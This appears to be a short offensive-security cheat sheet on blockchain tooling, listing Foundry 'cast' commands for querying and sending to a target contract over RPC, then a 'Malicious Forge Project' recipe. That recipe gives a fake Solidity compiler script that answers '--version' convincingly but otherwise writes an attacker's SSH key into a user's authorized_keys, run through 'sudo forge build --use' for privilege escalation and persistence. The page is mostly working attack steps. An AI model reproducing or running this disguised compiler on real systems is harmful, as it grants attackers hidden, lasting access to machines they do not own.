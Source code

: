 # Blockchain

- [Resources](#resources)

## Table of Contents

- [Foundry](#foundry)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Foundry | Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust. | https://github.com/foundry-rs/foundry |

## Foundry

### Common Commands

```console
$ cast storage <TARGET_ADDRESS> 0 --rpc-url <RHOST>/rpc
$ cast call --rpc-url <RHOST>/rpc <TARGET_ADDRESS> "balanceOf(address)(uint256)" <ADDRESS>
$ cast send <TARGET_ADDRESS> "balanceOf(address)(uint256)" <ADDRESS> <VALUE> --private-key <PRIVATE_KEY> --rpc-url <RHOST>/rpc
$ cast call --rpc-url <RHOST>/rpc <TARGET_ADDRESS> "balanceOf(address)(uint256)" <ADDRESS>
$ cast call --rpc-url <RHOST>/rpc <TARGET_ADDRESS> "allowance(address,address)(uint256)" <ADDRESS> <ADDRESS>
```

### Malicious Forge Project

#### Create Project

```console
$ forge init /PATH/TO/FOLDER/<FOLDER> --no-git --offline
```

#### Malicious Solidity Compiler (solc)

```bash
#!/bin/bash
if [[ $1 == "--version" ]]; then
    echo "solc, the solidity compiler"
    echo "Version: 0.8.17+commit.8df45f5f.Linux.g++"
else
    mkdir -p /home/<USERNAME>/.ssh
    echo "<SSH_KEY>" >> /home/<USERNAME>/.ssh/authorized_keys
    chmod 700 /home/<USERNAME>/.ssh
    chmod 600 /home/<USERNAME>/.ssh/authorized_keys
fi
```

#### Set Permission

```console
$ chmod 777 solc
```

#### Execution

```console
$ sudo forge build --use /PATH/TO/FILE/solc
```
